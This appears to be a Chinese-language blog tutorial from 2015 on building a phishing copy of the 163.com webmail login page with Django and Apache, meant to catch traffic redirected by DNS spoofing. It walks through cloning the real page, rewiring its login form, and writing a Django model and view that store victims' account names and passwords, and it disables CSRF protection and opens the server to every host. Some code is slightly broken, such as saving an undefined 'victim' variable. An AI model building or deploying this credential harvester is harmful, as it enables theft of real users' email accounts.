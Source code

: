 ```yaml
---
title:  "<font color='red'>[原创]</font> Apache2+Django搭建钓鱼网站"
date:   2015-08-22 15:13:23
categories: [原创,技术宅]
tags: [原创,技术宅]
---
```


*使用Apache2和Django框架搭建163邮箱的钓鱼网站，用于DNS欺骗后将访问163邮箱网站的流量定向到钓鱼网站，并获取邮箱账号和密码*

## 安装Django
---

通过pip安装：

	$ pip install django

---

## 搭建钓鱼网站
---

### 准备工作

* 用PyCharm生成Django工程，工程名为phisher，在工程根目录创建一个app，app名为mail：

		$ django-admin.py startapp mail

* 在生成的mail目录中创建static和templates文件夹，分别用于存放静态文件(css, js, 图片等)和网页文件(html)

* 在mail/static和mail/templates中创建163文件夹，用于存放163邮箱网页相关静态文件和网页文件

---

### 修改网页文件

* 进入[http://mail.163.com/](http://mail.163.com/)网页，右键，保存所有网页文件

* 修改html文件，删减无用代码，删除js，使其成为一个静态页面

* 替换精简后的html文件中的链接为本地静态文件：

		{% raw %}
		<!DOCTYPE html>
		{% load static %}
		<html>
		<img src="{% static '163/163logo.gif' %}"></a>
		<link rel="stylesheet" type="text/css" href="{% static '163/loginpage.css' %}">
		...
		</html>
		{% endraw %}

* 修改表单响应：

		<form action="/mail/163/login/" method="post">
		...
			<input type="text" name="account">
			<input type="password" name="password">
			<input type="submit">
		...
		</form>

* 如碰到iframe：

		<iframe rc="/mail/163/login/"></iframe>

---

### 编写逻辑文件

* 编写mail/models.py文件，定义数据库记录对象：
	
```python	
# coding:utf-8
from __future__ import unicode_literals

from django.db import models


class Phishee(models.Model):
    account = models.CharField(max_length=30)
    password = models.CharField(max_length=30)
    timestamp = models.DateTimeField(auto_now=True)
    other = models.TextField()

    def __unicode__(self):
        return self.account

    class Meta:
        db_table = 'phishee'			# 指定表名
```

编写完后同步数据库

	$ python manage.py makemigrations
	$ python manage.py migrate


* 编写mail/view.py文件：

```python
# coding:utf-8
from django.shortcuts import render_to_response
from django import forms

from mail.models import Phishee


class PhisheeForm(forms.Form):
    account = forms.CharField()
    password = forms.CharField()


def index_163(request):
    return render_to_response('163/index.html')


def login_163(request):
    if request.method == 'POST':
        form = PhisheeForm(request.POST)
        form.is_valid()
        cdata = form.cleaned_data
        phishee = Phishee(
            account=cdata['account'],		# 'account'与表单中input对应
            password=cdata['password']		# 'password'与表单中input对应
        )
        print phishee.account, phishee.password
        victim.save()						# 存入数据库等其他逻辑
    else:
        form = PhisheeForm()
    return render_to_response('163/login.html')
```

---

### 修改配置文件

* 修改phisher/settings.py文件：

		ALLOWED_HOSTS = ['*']		# 允许所有IP地址访问
		INSTALLED_APPS = [
		    ...,
		    'mail',					# 注册app
		]
		# 注释掉防止跨站请求伪造的中间件CsrfViewMiddleware
		MIDDLEWARE = [
			...,
		    #'django.middleware.csrf.CsrfViewMiddleware',
		    ...
		]
		# 修改数据库
		DATABASES = {
		    'default': {
		        'ENGINE': 'django.db.backends.mysql',
		        'NAME': '??',
		        'USER': '??',
		        'PASSWORD': '??',
		        'HOST': '127.0.0.1',
		        'PORT': '3306',
		    }
		}
		TIME_ZONE = 'Asia/Shanghai'	# 修改时区
		USE_TZ = False


* 修改phisher/url.py文件：

		urlpatterns = [
		    url(r'^static/(?P<path>.*)$', static_views.serve),
		    url(r'^admin/', admin.site.urls),
		    url(r'^mail/163/index/$', views.index_163),
		    url(r'^mail/163/login/$', views.login_163),
		    url(r'^', views.index_163),
		]

---

### 测试

		$ manage.py runserver 8000

用浏览器打开[127.0.0.1:8000](27.0.0.1:8000)

---

## 使用Apache24运行CGI程序
---

* 在/usr/local/etc/apache2/2.4/httpd.conf文件末尾添加：

		# 添加mod_wsgi.so模块
		LoadModule wsgi_module libexec/mod_wsgi-py27.so

		# 指定项目的wsgi.py配置文件路径  
		WSGIScriptAlias / /Users/wuyinan/Projects/python/phisher/phisher/wsgi.py

		# 指定项目路径  
		WSGIPythonPath /Users/wuyinan/Projects/python/phisher

		<Directory "/Users/wuyinan/Projects/python/phisher">
		  <Files wsgi.py>
		    Order deny,allow
		    Allow from all  
		  </Files>
		</Directory>

		# 指定Log路径
		ErrorLog /Users/wuyinan/Projects/python/phisher/log/error.log
		LogLevel warn
		CustomLog /Users/wuyinan/Projects/python/phisher/log/access.log combined

* 测试：

		$ sudo apachectl start

	用浏览器打开[127.0.0.1](27.0.0.1)

	![测试界面](/assets/2015-08-22-1.jpeg "测试界面")
